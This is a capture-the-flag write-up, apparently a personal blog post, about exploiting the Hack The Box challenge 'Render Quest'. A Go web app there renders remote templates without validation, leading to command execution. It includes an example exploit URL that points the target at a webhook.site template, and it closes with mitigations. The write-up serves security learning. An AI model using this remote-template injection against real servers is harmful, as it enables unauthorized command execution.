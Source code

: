 ```yaml
---
layout: single
classes: #wide
title: "Render Quest - HTB"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [ctf, htb]
tags: [burp, web injection, go]
---
```

# Render Quest:
![title](/assets/images/renderquest/titleImage.png)

<b>Challenge Description</b>:  
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!  

Going into this challenge I had never done 
any of the challenges page. I wanted to see how these were 
different compared to the machine tab. The main difference I saw
between this format and the machines, is you are not connected
directly to the machine. This critical factor posed to be an issue
throughout this box due to my not knowing how to expose my machine
corectly.  

Upon starting this challenge (post install and extraction of the zip)
, you are presented with the layout of the page. Because there was 
an input box I tried all sorts of things from XSS to SQLi. This resulted
in an error message each time. 

# Input Validation Error

Next, I looked over the source code a little further and to my surprise
there was a big input validation error.

![badFN](/assets/images/renderquest/badFunction.png)  

As you can see in the image above, there is no input validation here.
When the server fetches the info, it sends whatever what in that
request directly to the server. This means, when you click the render
button it takes anything in the file, reads it and executes it as a 
shell command.

Now, you might be thinking "It doesn't matter if you can execute it
if the code is never read". This would be true, however on line 126
it allows us to manually set the remote value to true in the url.

![manualRemote](/assets/images/renderquest/manualRemoteSet.png)  

![ifTrue](/assets/images/renderquest/ifRemoteTrue.png)  

So, if use_remote is set to true in the url it will read the remote file
(eg: the template) that is provided to the server.   

Example url: http://83.136.253.251:49423/render?use_remote=true&page=https://webhook.site/2865e172-7114-494e-a961-0859118ac2a8



# Exploitation
Now that we know that there is poor input handling and the 
template we provide will be read we are able to 
take advantage of it. Due to us not having direct connection to the 
machine vpn we have 2 choices. Create a webhook or expose our
own machines ip and port to send the mallicious file. Deciding to go 
with the first option I create a payload using webhook.site and it
looks like this:

![webhook](/assets/images/renderquest/webhook.png)  

With a result of:

![output1](/assets/images/renderquest/output1.png)  

Now all that's needed is to change the payload to get the flag.  

Hehe no spoilers XD

# Explanation Of Why It Works
Im adding this part in so that we can learn together and know what not
to do in order to prevent things like this happening on our own 
networks.  
<b>Reason it worked:</b>
* No input validation when handling user input
* Go hosting a webserver using templates vulnerability 
    - Vulnerability can be found [here](https://docs.fluidattacks.com/criteria/fixes/go/422/)
* Function directly executes bash commands  

<b>How to mitigate:</b>
* Add input validation
* Check for go patches, or get rid of templates all together if no longer needed
* Don't directly execute bash commands within your unsanitzied code
